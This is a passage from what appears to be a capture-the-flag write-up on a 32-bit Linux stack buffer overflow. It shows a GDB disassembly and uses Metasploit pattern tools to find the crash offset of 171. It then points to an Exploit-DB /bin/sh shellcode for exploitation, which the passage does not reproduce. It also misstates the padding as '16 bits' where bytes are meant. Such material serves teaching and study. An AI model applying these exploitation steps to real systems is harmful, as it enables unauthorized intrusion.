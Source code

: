 ```
       0x0804847f <+34>:    call   0x8048310>
       0x08048484 <+39>:    movl   $0x0,(%es>
       0x0804848b <+46>:    call   0x8048340>
       0x08048490 <+51>:    mov    0xc(%ebp)>
       0x08048493 <+54>:    add    $0x4,%eax
       0x08048496 <+57>:    mov    (%eax),%e>
       0x08048498 <+59>:    mov    %eax,0x4(>
       0x0804849c <+63>:    lea    0x11(%esp>
       0x080484a0 <+67>:    mov    %eax,(%es>
       0x080484a3 <+70>:    call   0x8048320>
       0x080484a8 <+75>:    mov    $0x0,%eax
       0x080484ad <+80>:    leave
       0x080484ae <+81>:    ret
```

Assembler code states that buffer size is 0xB0 (`sub    $0xb0,%esp`), which is decimal 176.
Though we know that the real number is 171. Why this difference? According to my searches, it seems that GDB pads buffers
size by 16 bits. So 171 become 176 (the next 16 bits block).

In Kali, one can use some Metasploit tools
([pattern_create](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb)
and [pattern_offset](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb)):

```
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Now, in GDB (on VM) :
```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Program received signal SIGSEGV, Segmentation fault.
    0x41376641 in ?? ()
```

SEGFAULT happened because we overflowed the buffer. With `pattern_offset`, one can now find precisely the buffer size :

In Kali
```
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 41376641
[*] Exact match at offset 171
```
Here again, 171.

#### Exploitation
I found on exploit DB a Linux `/bin/sh` exec : [13357](https://www.exploit-db.com/exploits/13357)
